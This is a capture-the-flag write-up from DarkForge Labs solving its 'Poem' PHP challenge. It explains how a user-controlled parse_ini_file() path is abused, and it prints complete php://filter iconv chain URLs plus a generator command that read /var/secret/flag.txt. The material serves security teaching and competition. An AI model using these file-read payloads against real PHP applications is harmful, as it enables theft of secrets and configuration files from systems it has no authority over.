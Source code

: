 ```yaml
---
layout: post
title:  "Poem CTF Solution, the PHP Filter Way"
date:   2025-04-04 06:00:00 +0200
categories: CTF DarkForge PHPFilter
---
```


# DarkForge Labs' First CTF

First off, huge congratulations to everyone who completed the challenge — and a special shoutout to [et3rnos](https://x.com/et3rnos), the first to solve it and our official winner!

This CTF was inspired by the article [*Impossible XXE in PHP*](https://swarm.ptsecurity.com/impossible-xxe-in-php/) by Aleksandr Zhurnakov. If you haven’t read it yet, you’re missing out.

## The Challenge

![The Challenge](/assets/images/f90efe340c242d21d9fd2d0c4ce7d48724dcba67.png)

The challenge was hosted at [https://ctf.darkfor.ge](https://ctf.darkfor.ge/) with the source available on our [GitHub](https://github.com/darkforge-labs/ctf-poem-web).


Digging into [`index.php`](https://github.com/darkforge-labs/ctf-poem-web/blob/main/index.php), we find three interesting things:

- The file parses a user-controlled parameter using:  
  `parse_ini_file($poem_file, true);`
- The `$poem_file` variable is controllable via the `poem_file` GET parameter:  
  `$poem_file = $_GET['poem_file'] ?? '/var/www/html/poem.ini';`
- The INI key it looks for is `POEM`:  
  `$config['POEM']`  
  _(Note: INI keys are **case sensitive**.)_

From the [`Dockerfile`](https://github.com/darkforge-labs/ctf-poem-web/blob/main/Dockerfile), we learn the flag is stored at `/var/secret/flag.txt`.

## Solution

Your first instinct might be to try this:  
[https://ctf.darkfor.ge/?poem_file=/var/secret/flag.txt](https://ctf.darkfor.ge/?poem_file=/var/secret/flag.txt)

But that won’t work. The flag file doesn’t contain INI-formatted content, and `parse_ini_file()` expects a valid format like:

```ini
POEM = FLAG_VALUE
```

So, the trick is to **prepend** the necessary INI key to the flag content.

## Dead Ends

If you’re familiar with the modern [wrapwrap](https://github.com/ambionics/wrapwrap) technique by [Charles Fol](https://x.com/cfreal_), you might try using that. However, due to server constraints on URL length, you’ll hit a "Requested URI Too Long" error.

![URI too long error](/assets/images/6b62b65e86a4665f74c7ca862328fc1cc098ecda.png)

## Filters to the Rescue

It all starts with this legendary post by [Gynvael](https://x.com/gynvael) in 2018:  
[Surprising CTF task solution using php://filter](https://gynvael.coldwind.pl/?id=671)

Shortly after this post, [lolknop](https://x.com/loknop) took it further with a custom payload generator you can find in this [Gist](https://gist.github.com/loknop/b27422d355ea1fd0d90d6dbc1e278d4d).

This is perfect — we can use it to prepend the line `POEM = ` to the flag content, making it parsable by `parse_ini_file()`.

But... there’s a slight snag. Both `POEM =` and its base64 form `UE9FTSA9` contain characters not supported by lolknop's script. The workaround? Use a **tab** and remove the space before the `=`:

```
\tPOEM=
```

Which base64-encodes to: `CVBPRU09` — a string with characters fully supported by the Gist tooling. Excellent.

This allows us to build a monster filter chain like this:

```
php://filter/.../resource=/var/secret/flag.txt
```

*(Note: Click the link for the full URL)*

[Payload link https://ctf.darkfor.ge/?poem_file=php://filter/convert.iconv.UTF8...\|convert.base64-decode/resource=/var/secret/flag.txt](https://ctf.darkfor.ge/?poem_file=php://filter/convert.iconv.UTF8.CSISO2022KR%7cconvert.base64-encode%7cconvert.iconv.UTF8.UTF7%7cconvert.iconv.UTF8.CSISO2022KR%7cconvert.iconv.ISO2022KR.UTF16%7cconvert.iconv.ISO6937.JOHAB%7cconvert.base64-decode%7cconvert.base64-encode%7cconvert.iconv.UTF8.UTF7%7cconvert.iconv.UTF8.CSISO2022KR%7cconvert.iconv.ISO2022KR.UTF16%7cconvert.iconv.UCS-2LE.UCS-2BE%7cconvert.iconv.TCVN.UCS2%7cconvert.iconv.1046.UCS2%7cconvert.base64-decode%7cconvert.base64-encode%7cconvert.iconv.UTF8.UTF7%7cconvert.iconv.UTF8.CSISO2022KR%7cconvert.iconv.ISO2022KR.UTF16%7cconvert.iconv.CP1133.IBM932%7cconvert.base64-decode%7cconvert.base64-encode%7cconvert.iconv.UTF8.UTF7%7cconvert.iconv.UTF8.UTF16LE%7cconvert.iconv.UTF8.CSISO2022KR%7cconvert.iconv.UTF16.EUCTW%7cconvert.iconv.MAC.UCS2%7cconvert.base64-decode%7cconvert.base64-encode%7cconvert.iconv.UTF8.UTF7%7cconvert.iconv.UTF8.CSISO2022KR%7cconvert.iconv.ISO2022KR.UTF16%7cconvert.iconv.UCS-2LE.UCS-2BE%7cconvert.iconv.TCVN.UCS2%7cconvert.iconv.857.SHIFTJISX0213%7cconvert.base64-decode%7cconvert.base64-encode%7cconvert.iconv.UTF8.UTF7%7cconvert.iconv.UTF8.UTF16LE%7cconvert.iconv.UTF8.CSISO2022KR%7cconvert.iconv.UTF16.EUCTW%7cconvert.iconv.CP1256.UCS2%7cconvert.base64-decode%7cconvert.base64-encode%7cconvert.iconv.UTF8.UTF7%7cconvert.iconv.UTF8.CSISO2022KR%7cconvert.iconv.ISO2022KR.UTF16%7cconvert.iconv.UCS-2LE.UCS-2BE%7cconvert.iconv.TCVN.UCS2%7cconvert.iconv.851.BIG5%7cconvert.base64-decode%7cconvert.base64-encode%7cconvert.iconv.UTF8.UTF7%7cconvert.iconv.UTF8.CSISO2022KR%7cconvert.base64-decode%7cconvert.base64-encode%7cconvert.iconv.UTF8.UTF7%7cconvert.base64-decode/resource=/var/secret/flag.txt)

## Easier Payload Generation

For a much cleaner experience, use the [PHP Filter Chain Generator](https://github.com/synacktiv/php_filter_chain_generator) by [Rémi Matasse](https://x.com/_remsio_) of Synacktiv. It already maps most ASCII character to their supported encodings.

Just run:

```bash
python php_filter_chain_generator.py --chain 'POEM ='
```

Then replace `resource=` with your target file (`/var/secret/flag.txt`), and voilà, payload done.

*(Note: Click the link for the full URL)*

[https://ctf.darkfor.ge/?poem_file=php://filter/convert.iconv...\|convert.base64-encode\|...\|convert.base64-encode\|convert.iconv.UTF8.UTF7\|convert.base64-decode/resource=/var/secret/flag.txt](https://ctf.darkfor.ge/?poem_file=php://filter/convert.iconv.UTF8.CSISO2022KR%7cconvert.base64-encode%7cconvert.iconv.UTF8.UTF7%7cconvert.iconv.CSIBM1161.UNICODE%7cconvert.iconv.ISO-IR-156.JOHAB%7cconvert.base64-decode%7cconvert.base64-encode%7cconvert.iconv.UTF8.UTF7%7cconvert.iconv.8859_3.UTF16%7cconvert.iconv.863.SHIFT_JISX0213%7cconvert.base64-decode%7cconvert.base64-encode%7cconvert.iconv.UTF8.UTF7%7cconvert.iconv.INIS.UTF16%7cconvert.iconv.CSIBM1133.IBM943%7cconvert.iconv.GBK.SJIS%7cconvert.base64-decode%7cconvert.base64-encode%7cconvert.iconv.UTF8.UTF7%7cconvert.iconv.L6.UNICODE%7cconvert.iconv.CP1282.ISO-IR-90%7cconvert.iconv.CSA_T500.L4%7cconvert.iconv.ISO_8859-2.ISO-IR-103%7cconvert.base64-decode%7cconvert.base64-encode%7cconvert.iconv.UTF8.UTF7%7cconvert.iconv.L5.UTF-32%7cconvert.iconv.ISO88594.GB13000%7cconvert.iconv.CP950.SHIFT_JISX0213%7cconvert.iconv.UHC.JOHAB%7cconvert.base64-decode%7cconvert.base64-encode%7cconvert.iconv.UTF8.UTF7%7cconvert.iconv.CSIBM1161.UNICODE%7cconvert.iconv.ISO-IR-156.JOHAB%7cconvert.base64-decode%7cconvert.base64-encode%7cconvert.iconv.UTF8.UTF7%7cconvert.iconv.IBM860.UTF16%7cconvert.iconv.ISO-IR-143.ISO2022CNEXT%7cconvert.base64-decode%7cconvert.base64-encode%7cconvert.iconv.UTF8.UTF7%7cconvert.iconv.INIS.UTF16%7cconvert.iconv.CSIBM1133.IBM943%7cconvert.base64-decode%7cconvert.base64-encode%7cconvert.iconv.UTF8.UTF7%7cconvert.base64-decode/resource=/var/secret/flag.txt)

![Flag Retrieved](/assets/images/3cc56575fc80a023f712eadc961786902d7b0d89.png)

For deeper understanding, I highly recommend reading their full post:  
[*PHP Filters Chain: What is it and how to use it*](https://www.synacktiv.com/en/publications/php-filters-chain-what-is-it-and-how-to-use-it)

You can also explore [PHP_INCLUDE_TO_SHELL_CHAR_DICT](https://github.com/wupco/PHP_INCLUDE_TO_SHELL_CHAR_DICT) by [Wupco](https://github.com/wupco) for fuzzing and payload crafting.

## Final Thoughts

This challenge was all about exploring edge-case behavior in PHP’s obscure corners and the community’s creativity in weaponizing those quirks. The linked articles are truly mind-bending and absolutely worth a read.

Big thanks to everyone who played, and stay tuned, the [DarkForge](https://darkforge.io) team has a lot more coming your way.